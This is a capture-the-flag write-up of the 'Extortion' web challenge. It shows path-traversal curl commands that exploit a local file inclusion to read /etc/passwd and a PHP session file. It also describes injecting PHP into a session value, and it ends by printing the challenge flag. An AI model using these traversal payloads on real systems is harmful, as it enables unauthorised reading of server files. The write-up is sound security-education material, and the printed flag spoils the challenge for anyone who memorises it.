 # Extortion
## Enumeration
Clicking around I notice a parameter in the url that might be injectable.
```html
http://138.68.168.137:32195/?f=airship.php
```

I send the command over to curl to test for an LFI by attempting to view /etc/passwd. It appears the command worked succesfully.

```bash
curl http://138.68.168.137:32195/?f=../../../../etc/passwd

...snip...

 React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
"), /*#__PURE__*/
)));
}
</script>
</body>
</html>
```

## Locating the flag
Unfortunetly the flag isn't just named flag, so I had to get creative on how to gain execution on the system. I knew the system was using PHP, so I checked for logs, environ variables for something I could control. I ended up finding a PHPSESSID being set when sending a ship home.
![[Pasted image 20210422211651.png]]

I sen this request over to burpsuite and injected some PHP code.

![[Pasted image 20210422211726.png]]

I can now request my PHP sess id from the _/tmp/sess_phpsessid_ file. 

```bash
curl 'http://138.68.168.137:32195/?f=../../../../tmp/sess_b53f826be5c7e28e0bfb18572c3102f4'
..snip...
 React.createElement("p", null, "plane|s:54:"/var/www/html/flag_ffacf623917dc0e2f83e9041644b3e98.txt
";"), /*#__PURE__*/
...snip...
```

Voila, I had located the flag on this sytem, all that was left is to request the file.

```bash
curl 'http://138.68.168.137:32195/?f=../../../..//var/www/html/flag_ffacf623917dc0e2f83e9041644b3e98.txt'
...snip...
React.createElement("p", null, "CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
...snip...
```